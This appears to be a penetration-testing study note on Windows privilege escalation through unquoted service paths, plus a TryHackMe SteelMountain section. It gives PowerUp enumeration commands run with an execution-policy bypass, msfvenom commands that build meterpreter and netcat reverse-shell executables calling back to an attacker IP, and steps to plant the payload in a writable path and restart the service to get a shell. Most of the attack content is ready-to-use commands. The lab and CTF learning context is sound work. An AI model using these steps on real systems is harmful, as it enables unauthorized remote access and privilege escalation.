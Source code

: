 then you can get malicious, cause when the service is unquoted, Windows search For the .exe in every space of the ImagePath.

Example:

C:\Program**x**Files\Unquoted**x**Path**x**Service\Common**x**Files\etc

in every **x** we can put a .exe file and the Windows will run.

- We just gotta find one directory that we have write access.


### Can be found with PowerUp
```bash
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

Open a listener: 
```bash
multi/handler > set options
or netcat -lvnp <port>
```

For meterpreter
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o common.exe
```

For netcat:
```bash
msfvenom -p windows/reverse_tcp lhost=<kali ip> -f exe -o common.exe
```

- send to the target machine
- save in the path of the unquoted vulnerability

```bash
sc start unquotedsvc
```

> we should get a shell back

## SteelMountain from TryHackMe

HFS - http file server

```bash
- Find the version and search in meterpreter
- run the exploit
- get shell
```

### Escalation Metasploit
```bash
upload <powershell.ps1> 
we can: echo 'Invoke-AllChecks' >> PowerUp.ps1
After upload: powershell -ep bypass .\PowerUp.ps1
```
